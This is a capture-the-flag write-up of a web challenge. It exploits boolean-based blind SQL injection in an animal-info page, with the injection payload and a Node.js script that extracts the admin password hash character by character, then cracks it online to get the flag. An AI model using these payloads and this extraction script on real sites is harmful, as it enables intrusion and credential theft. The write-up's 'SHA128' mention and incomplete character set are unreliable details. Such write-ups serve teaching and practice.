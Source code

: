 # SELECT error FROM info

> Category: Web

> Points: 250

## Challenge Description

> translated: Petra's site about wild animals worked well before too, but it had a few errors which Petra fixed immediately. Apart from just fixing them, she added some new features. There's a new site "Info" which contains interesting informations about animals, and a page "Log in" on which people that have an account can log in. Currently, only Petra has an account, and she is the only person that can sign in. Even though the site is still unfinished, Petra wanted to share her with you.

> native: Petrina stranica o divljim životinjama je i prije dobro radila, ali je imala nekih grešaka koje je Petra odmah popravila. Osim popravka, dodala je nove mogućnosti. Postoji nova stranica "Info" koja sadrži zanimljive informacije o životinjama i stranica "Ulogiraj se" na kojoj se mogu ulogirati osobe koje imaju korisnički račun. Trenutno, samo Petra ima korisnički račun i ona je jedina osoba koja se može ulogirati.
> Iako je stranica još uvijek nedovršena, Petra bi ju htjela podijeliti s tobom! 

## Analysis

So right away from the title, this task suggests SQL injection.

![decrypted](website.png)

Let's look into that Info page. It sends out a query immediately to ?animal=Lion (?zivotinja=Lav).

Since the value of that request is successful, it gives us a sentence about lions.

![decrypted](analysis.PNG)

Let's try to throw some SQL queries together with this.

We notice that when we do ```info.php?zivotinja=Lav' AND SUBSTRING((SELECT username FROM users LIMIT 1), 1, 1) = 'a```` it returns the same string.

The solution we came up with here isn't ideal by any means, because it is literally a bruteforce JS script, that uses an alphanumeric string and goes letter by letter to grab the password hash and admin name.

We knew from some other tasks that registering on the website makes the password hash encrypted.

Sometimes it was SHA256, and sometimes SHA128, but we decided to brute it like this.

The script we came up with looks a little something like this:

```js
let axios = require('axios');

var alphanumeric = "0123456789abcdefghijklmnoprstuvzxyz";
var str = "Lav' AND SUBSTRING((SELECT password FROM users LIMIT 1), {REPLACE_NUM}, 1) = '";
var hash = "";

async function getHash() {
    for (let i = 1; i < 270; ++i) {
        for (char in alphanumeric) {
            x = alphanumeric[char];
            var uri = str.replace('{REPLACE_NUM}', i.toString());
            let result = await axios({
                url: 'http://chal.hacknite.hr:9105/info.php?zivotinja=' + uri + x,
                method: 'get',
                timeout: 8000
            });
            
            await new Promise(resolve => setTimeout(resolve, 500)); // 500ms timeout because of rules regarding requests

            if (result.data.includes('- Lav je životinjska vrsta iz porodice mačaka.')) {
                hash = hash + x;
                console.log( x + ' - ' + hash);
                break;
            }
        }
        
        if (hash.length != i) {
            break;
        }
    }    
}

getHash();

console.log(hash);
```

The script output looked a little bit like this:

![decrypted](script_password_hash.PNG)

We did the same thing for admin, which was stored in plaintext in the database and whose value was "admin128723".

To decode the hash value we used this website: https://crackstation.net/

The result was plaintext: october

When we logged into the website, this appeared:

![decrypted](solution.png)

## FLAG

> CTF2021[294217488986]